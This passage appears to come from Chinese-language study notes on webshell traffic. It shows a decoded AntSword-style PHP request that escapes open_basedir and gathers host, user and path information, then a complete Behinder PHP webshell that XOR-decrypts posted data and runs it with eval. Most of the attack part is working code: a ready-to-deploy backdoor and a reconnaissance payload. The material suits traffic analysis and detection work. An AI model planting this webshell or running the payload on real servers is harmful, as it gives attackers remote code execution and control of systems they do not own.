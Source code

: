 #### url解码

```
xxx=@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.6e03217734";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "8f3f"."8e9e";echo @asenc($output);echo "fec"."112";}ob_start();try{$D=dirname($_SERVER["SCRIPT_FILENAME"]);if($D=="")$D=dirname($_SERVER["PATH_TRANSLATED"]);$R="{$D}	";if(substr($D,0,1)!="/"){foreach(range("C","Z")as $L)if(is_dir("{$L}:"))$R.="{$L}:";}else{$R.="/";}$R.="	";$u=(function_exists("posix_getegid"))?@posix_getpwuid(@posix_geteuid()):"";$s=($u)?$u["name"]:@get_current_user();$R.=php_uname();$R.="	{$s}";echo $R;;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();
```

### 总结

#### 1.每个请求体都是一样的开始

```
@ini_set("display_errors","0");@set_time_limit(0);
```

#### 2.响应包，都是明⽂

![image-20240901083147331](https://image.201068.xyz/assets/26.文件上传/image-20240901083147331.png)

## 冰蝎

### 生成webshell

> default_xor_base64

![image-20240901085847474](https://image.201068.xyz/assets/26.文件上传/image-20240901085847474.png)

![image-20240901085915307](https://image.201068.xyz/assets/26.文件上传/image-20240901085915307.png)

### websherll内容

```php
<?php
@error_reporting(0);
function Decrypt($data)
{
    $key="e45e329feb5d925b"; 
    $bs="base64_"."decode";
	$after=$bs($data."");
	for($i=0;$i<strlen($after);$i++) {
    	$after[$i] = $after[$i]^$key[$i+1&15]; 
    }
    return $after;
}
$post=Decrypt(file_get_contents("php://input"));
eval($post);
?>
```
